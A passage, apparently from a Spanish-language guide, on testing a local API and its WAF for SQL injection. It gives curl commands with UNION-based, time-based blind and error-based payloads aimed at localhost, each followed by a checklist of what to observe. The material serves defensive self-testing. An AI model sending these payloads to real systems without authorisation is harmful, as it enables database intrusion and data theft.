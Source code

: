 ```bash
# Test básico de UNION
curl "http://localhost:3000/api/users?id=1' UNION SELECT 1,2,3--"

# Test con NULL (más común que funcione)
curl "http://localhost:3000/api/users?id=1' UNION SELECT null,null,null--"

# Intentar extraer información del sistema
curl "http://localhost:3000/api/users?id=1' UNION SELECT database(),user(),version()--"

# Intentar acceder a tablas del sistema
curl "http://localhost:3000/api/users?id=1' UNION SELECT table_name,null,null FROM information_schema.tables--"
```

**¿Qué observar?**
- 🚨 ¿Aparecen datos adicionales en la respuesta?
- 🚨 ¿Se muestran nombres de tablas o información de BD?
- ✅ ¿El WAF detecta y bloquea UNION?

#### 2.3 Time-Based Blind SQL Injection

**Concepto**: Usar funciones de tiempo para confirmar vulnerabilidades basándose en demoras.

```bash
# MySQL
curl -w "Tiempo total: %{time_total}s\n" "http://localhost:3000/api/users?id=1' AND SLEEP(5)--"

# PostgreSQL  
curl -w "Tiempo total: %{time_total}s\n" "http://localhost:3000/api/users?id=1'; SELECT PG_SLEEP(5)--"

# SQL Server
curl -w "Tiempo total: %{time_total}s\n" "http://localhost:3000/api/users?id=1'; WAITFOR DELAY '00:00:05'--"
```

**¿Qué observar?**
- 🚨 ¿El request tarda exactamente 5 segundos más de lo normal?
- 🚨 ¿Hay timeout en el cliente o servidor?
- ✅ ¿El WAF bloquea antes de que se ejecute?

#### 2.4 Error-Based SQL Injection

**Concepto**: Provocar errores de BD que revelen información en los mensajes.

```bash
# Errores básicos
curl "http://localhost:3000/api/users?id=1'"
curl "http://localhost:3000/api/users?id=1''"

# MySQL Error-based
curl "http://localhost:3000/api/users?id=1' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT database()),0x7e))--"

# PostgreSQL Error-based  
curl "http://localhost:3000/api/users?id=1' AND CAST((SELECT version()) AS int)--"
```
